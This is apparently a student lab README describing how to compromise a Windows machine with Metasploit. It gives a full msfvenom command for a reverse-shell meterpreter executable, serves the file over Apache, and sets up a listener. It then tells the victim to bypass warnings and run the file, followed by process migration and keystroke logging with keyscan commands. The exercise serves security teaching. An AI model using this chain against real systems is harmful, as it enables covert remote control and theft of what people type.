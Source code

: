 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig 322251922-6e11e35c-4c2c-4b7f-b903-58b1582a464b
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/104eab8b-3fb7-48fe-ade0-31243e195d81)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe 
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/0df0e815-1019-49e3-996b-43e70ba70201)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/77100a12-2427-4562-906a-ea2cf6a3e18d)

Start apache server sudo systemctl apache2 start 
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/0c72e2bc-2ed6-4f58-82d5-6abf3cc86165)

Check the status of apache2
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/0cdc4dbc-0096-421c-9871-7c748d834acf)

Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit ![326166316-27254eeb-6e3e-4ca0-938f-fa39732b8b8a] On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. (https://github.com/gowriganeshns/Compromising-windows-using-Metasploit/assets/131433133/6a71f1a6-830e-4160-8355-3cb87ec0e619)
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/d7513f4b-c94d-4f1f-ba56-23812f92ccfa)

Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/6f84f7dc-4cf9-4d05-9fbe-de8fd2ab8269)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/187cae8f-a756-4f56-a659-80340356c26c)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/f67aa38d-536c-436d-90f7-2cada74bbdbc)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Naadira/Compromising-windows-using-Metasploit/assets/128135126/360ef81c-76fc-44e8-82f0-f6bf264b8bf4)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
